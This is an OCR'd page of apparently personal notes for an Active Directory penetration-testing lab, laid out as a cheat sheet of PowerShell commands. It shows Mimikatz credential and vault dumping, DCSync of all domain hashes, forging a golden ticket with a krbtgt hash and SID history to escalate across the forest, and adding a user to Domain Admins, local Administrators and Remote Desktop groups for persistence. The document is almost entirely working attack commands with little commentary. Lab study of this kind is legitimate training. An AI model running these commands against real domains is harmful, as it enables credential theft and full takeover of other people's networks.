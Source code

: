 ## 5. Domain Admin Persistence

```powershell
Invoke-Mimikatz

# note the rc4
Invoke-Mimikatz -Command '"sekurlsa::ekeys"'

Invoke-Mimikatz -Command '"token::elevate" "vault::cred /patch"'
```

## Extras

```powershell
# Once you are DA add user to DA group
Invoke-Command -ScriptBlock {net group "DOMAIN ADMINS" student21 /domain /add} -ComputerName dcorp-dc.dollarcorp.moneycorp.local

C:> net localgroup Administrators student21 /add 
C:> net localgroup "Remote Desktop Users" student21 /add

https://docs.microsoft.com/en-us/sysinternals/downloads/psexec

```

## Forest Priv Esc

```powershell

Invoke-Mimikatz

Invoke-Mimikatz -Command '"lsadump::trust /patch"'

Invoke-Mimikatz -Command '"lsadump::dcsync /domain:DOLLARCORP.MONEYCORP.LOCAL /all /csv"'

Invoke-Mimikatz -Command '"kerberos::golden /user:student21 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234-700767426-519 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /ptt"'

gwmi -Class win32_computersystem -ComputerName mcorp-dc.moneycorp.local


```

## Query

```powershell
net localgroup administrators
# add to localgroup admins
net localgroup Administrators student21 /add 

# add to RDP group
net localgroup "Remote Desktop Users" student21 /add

# Add to DA 
net group "DOMAIN ADMINS" student21 /domain /add

# Checking First Degree Object Controls
# if the user is part of a group example sql admins and has generic all access we can do the following
net group "SQLMANAGERS" examAd /domain /add

```
